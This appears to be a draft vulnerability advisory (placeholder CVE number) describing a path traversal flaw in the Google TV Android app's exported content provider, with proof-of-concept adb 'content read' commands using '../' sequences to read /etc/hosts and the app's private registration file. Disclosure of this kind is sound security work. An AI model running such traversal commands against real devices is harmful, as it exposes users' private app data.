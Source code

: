 ```yaml
---
layout: page
title: CVE-2024-yaytempyay Details
permalink: /cves/cve-2024-yaytempyay
---
```


|    **Product**    | Google TV version 4.39.2590.678247678.4-release |
|    **Severity**   |                   ???                   |
| **CVE Reference** |              CVE-yayplaceholder-yay              |
|      **Type**     |             Path Traversal            |

## Description

The Google TV Android application (`com.google.android.videos`) had an exported Content Provider which contains a path traversal vulnerability. Specifically, the vulnerable Content Provider is `com.google.android.apps.googletv.app.image.PosterSharingContentProvider`.

This issue was exploitable under the following conditions:

* The underlying Google Account was a part of a Google Family
* The Google Family had previously purchased products in the Family Library
* The application has previously been opened and viewed the Highlights section

## Impact

This can allow the calling application to view files on the file system within the context of the Google TV Android application.

## Proof of Concept (PoC)

The following code snippet shows that the `adb shell` user on a Samsung Galaxy S24 could abuse the vulnerable Content Provider to read the `/etc/hosts` file:

```
e1s:/ $ id
uid=2000(shell) gid=2000(shell) groups=2000(shell),1004(input),1007(log),1011(adb),1015(sdcard_rw),1028(sdcard_r),1078(ext_data_rw),1079(ext_obb_rw),3001(net_bt_admin),3002(net_bt),3003(inet),3006(net_bw_stats),3009(readproc),3011(uhid),3012(readtracefs) context=u:r:shell:s0

e1s:/ $ content read --uri content://com.google.android.videos.postersharingcontentprovider/../../../../../../etc/hosts 
127.0.0.1       localhost
::1             ip6-localhost
```

Additionally, this issue could have been used to read files that were in Google TV's private files directory:

```
e1s:/ $ cat /data/data/com.google.android.videos/shared_prefs/registration_data.xml
cat: /data/data/com.google.android.videos/shared_prefs/registration_data.xml: Permission denied

e1s:/ $ content read --uri content://com.google.android.videos.postersharingcontentprovider/../../shared_prefs/registration_data.xml
<?xml version='1.0' encoding='utf-8' standalone='yes' ?>
<map>
    <string name="last_successful_registration_environment_url">notifications-pa.googleapis.com</string>
    <boolean name="is_registered_to_unified_fcm_registration" value="false" />
    <int name="last_successful_registration_request_hash_code" value="364779808" />
    <long name="last_successful_registration_time_ms" value="1728826771075" />
    <string name="fetch_only_id">c21e1400-64e6-4663-a32c-5682569d2bc1</string>
    <string name="internal_target_id">Ch1nY21fZm86djE6Njc3MDQ3MDA2Mzg2MzMxNTk2Nw</string>
    <int name="last_successful_registration_account_type" value="1" />
</map>
```

## Technical Details

The vulnerable Content Provider is meant to host files that are hosted in `/data/user/0/com.google.android.videos/files/offline_images/`. However, this directory is not created by default.

One method to create this directory is to go to the Highlights section of the application, assuming that the underlying Google account met the following conditions:

* The Google Account was a part of a Google Family
* The Google Family had previously purchased TV shows or movies

Once those conditions are met, any application could have exploited this issue by added `../` characters to the Content Provider URI.